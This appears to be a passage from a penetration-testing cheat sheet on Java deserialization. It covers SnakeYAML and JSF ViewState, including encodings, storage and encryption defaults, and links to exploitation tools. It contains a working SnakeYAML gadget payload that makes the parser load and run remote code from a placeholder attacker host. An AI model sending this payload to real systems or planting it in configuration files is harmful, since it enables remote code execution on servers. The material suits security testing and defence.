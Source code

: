 ## YAML Deserialization

SnakeYAML is a popular Java-based library used for parsing and emitting YAML (YAML Ain't Markup Language) data. It provides an easy-to-use API for working with YAML, a human-readable data serialization standard commonly used for configuration files and data exchange.

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

## ViewState

In Java, ViewState refers to the mechanism used by frameworks like JavaServer Faces (JSF) to maintain the state of UI components between HTTP requests in web applications. There are 2 major implementations:

* Oracle Mojarra (JSF reference implementation)
* Apache MyFaces

**Tools**:

* [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) - JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and EXploitation Tool
* [Synacktiv-contrib/inyourface](https://github.com/Synacktiv-contrib/inyourface) - InYourFace is a software used to patch unencrypted and unsigned JSF ViewStates.

### Encoding

| Encoding      | Starts with |
| ------------- | ----------- |
| base64        | `rO0`       |
| base64 + gzip | `H4sIAAA`   |

### Storage

The `javax.faces.STATE_SAVING_METHOD` is a configuration parameter in JavaServer Faces (JSF). It specifies how the framework should save the state of a component tree (the structure and data of UI components on a page) between HTTP requests.

The storage method can also be inferred from the viewstate representation in the HTML body.

* **Server side** storage: `value="-XXX:-XXXX"`
* **Client side** storage: `base64 + gzip + Java Object`

### Encryption

By default MyFaces uses DES as encryption algorithm and HMAC-SHA1 to authenticate the ViewState. It is possible and recommended to configure more recent algorithms like AES and HMAC-SHA256.
